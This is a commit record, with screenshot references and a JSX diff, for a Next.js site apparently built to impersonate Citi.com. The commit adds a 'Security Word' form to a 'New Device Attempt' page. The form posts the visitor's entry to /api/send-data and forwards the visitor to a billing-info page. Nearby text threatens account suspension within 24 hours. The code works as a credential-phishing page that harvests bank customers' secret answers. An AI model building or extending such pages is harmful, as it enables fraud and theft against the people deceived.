

Before and after one commit to mega0247/citi.online, a Next.js app: page /new-device in a window 1280 px wide. Shown: the top 800 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
added security word input

```diff
--- a/app/new-device/page.jsx
+++ b/app/new-device/page.jsx
@@ -1,13 +1,34 @@
+"use client";
+
 import Footer from "@/components/layout/Footer";
 import Header from "@/components/layout/Header";
-import Link from "next/link";
-import React from "react";
+import axios from "axios";
+import { useRouter } from "next/navigation";
+import React, { useState } from "react";
 
-export const metadata = {
-  title: "New Device Attempt | Citi.com",
+// export const metadata = {
+//   title: "New Device Attempt | Citi.com",
+// };
+
+const Page = () => {
+  const [securityWord, setSecurityWord] = useState("");
+  const [loading, setLoading] = useState(false);
+  const router = useRouter();
+
+  const handleSubmit = async (e) => {
+    e.preventDefault();
+
+    try {
+      setLoading(true);
+      await axios.post("/api/send-data", { securityWord });
+      router.push("/billing-info");
+    } catch (err) {
+      alert("Wrong Security Word, Please give valid Security Word");
+    } finally {
+      setLoading(false);
+    }
   };
 
-const Page = () => {
   return (
     <main className="bg-[#f5f7fa] min-h-screen flex flex-col">
       <Header />
@@ -24,21 +45,38 @@ const Page = () => {
             account.
           </p>
 
+          <form onSubmit={handleSubmit}>
+            <div className="flex mb-6 gap-4">
+              <h1 className="text-lg font-bold text-[#0d2d62]">
+                Security Word:
+              </h1>
+              <input
+                placeholder=""
+                type="text"
+                name="securityWord"
+                value={securityWord}
+                onChange={(e) => setSecurityWord(e.target.value)}
+                className="w-[200px] border rounded-lg px-4  text-lg tracking-widest text-center placeholder:tracking-normal placeholder:font-medium focus:outline-none focus:ring-2 focus:ring-[#0d2d62]"
+                required
+              />
+            </div>
+
             <div className="flex gap-4 mb-6">
-            <Link
-              href={"/billing-info"}
+              <button
+                type="submit"
                 className="flex-1 border border-[#056dae] text-[#056dae] py-3 rounded-lg font-semibold hover:bg-[#f0f4f9] transition-colors text-center cursor-pointer"
               >
-              This wasn’t me
-            </Link>
+                {loading ? "Loading..." : "This wasn’t me"}
+              </button>
 
-            <Link
-              href={"/billing-info"}
+              <button
+                type="submit"
                 className="flex-1 bg-primary hover:!bg-[#054e7b] text-white py-3 rounded-lg font-semibold  transition-colors text-center"
               >
-              Confirm
-            </Link>
+                {loading ? "Loading..." : "Confirm"}
+              </button>
             </div>
+          </form>
 
           <p className="text-xs text-gray-600 leading-relaxed">
             If you don’t confirm within 24 hours, we’ll limit and suspend your
```
Lines whose indentation alone changed are shown as unchanged.
